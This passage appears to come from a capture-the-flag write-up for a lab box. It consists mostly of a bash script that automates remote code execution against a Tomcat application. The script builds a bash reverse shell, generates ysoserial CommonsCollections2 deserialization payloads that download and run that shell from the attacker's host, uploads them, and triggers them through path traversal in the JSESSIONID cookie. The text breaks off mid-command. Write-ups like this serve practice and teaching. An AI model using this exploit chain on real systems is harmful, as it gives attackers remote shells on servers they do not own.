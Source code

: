 In case you'd like to automate all the process of getting a shell, you can use the following bash script:

```bash
#!/bin/bash

# === CONFIG ===
TARGET_HOST="http://admin.certain-doom.thm:8080"
LHOST="CHANGE_WITH_YOUR_IP"
LPORT="4444"
YSOSERIAL_PATH="PUT_YSOSERIAL_PATH"
SHELL_NAME="shell.sh"
SESSION_DIR="$(pwd)"

# === Step 1: Create reverse shell payload ===
echo "[*] Creating reverse shell payload..."

cat <<EOF > $SHELL_NAME
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/$LHOST/$LPORT 0>&1'
EOF

chmod +x $SHELL_NAME
echo "[+] Reverse shell script created: $SHELL_NAME"

# === Step 2: Generate session payloads ===
echo "[*] Generating .session files with ysoserial..."

java -jar $YSOSERIAL_PATH CommonsCollections2 "curl http://$LHOST:8000/$SHELL_NAME -o /tmp/$SHELL_NAME" > downloadFile.session
java -jar $YSOSERIAL_PATH CommonsCollections2 "chmod 777 /tmp/$SHELL_NAME" > chmodFile.session
java -jar $YSOSERIAL_PATH CommonsCollections2 "bash /tmp/$SHELL_NAME" > executeFile.session

echo "[+] .session files generated."

# === Step 3: Start Python web server in background ===
echo "[*] Starting Python HTTP server to host $SHELL_NAME..."
python3 -m http.server 8000 > /dev/null 2>&1 &
PYTHON_PID=$!
echo "[+] Python server running with PID $PYTHON_PID"

# === Step 4: Upload payloads ===
echo "[*] Uploading payloads to target..."

curl "$TARGET_HOST/reports/upload" -F "uploadFile=@downloadFile.session"
curl "$TARGET_HOST/reports/upload" -F "uploadFile=@chmodFile.session"
curl "$TARGET_HOST/reports/upload" -F "uploadFile=@executeFile.session"

echo "[+] Upload complete."

# === Step 5: Reminder to start listener ===
echo -e "\n🚨 Now start your listener in another terminal:\n"
echo "pwncat -l --self-inject /bin/bash:$LHOST:$LPORT $LPORT"
echo -e "\nPress Enter to trigger payload chain..."
read

# === Step 6: Trigger the payloads ===
FILES=("downloadFile" "chmodFile" "executeFile")

for file in "${FILES[@]}"; do
    echo "[*] Triggering payload: $file"

    curl -s "$TARGET_HOST/reports/" \
        -H "Cookie: JSESSIONID=../../../../../../../../../usr/local/tomcat/temp/uploads/$file" \
```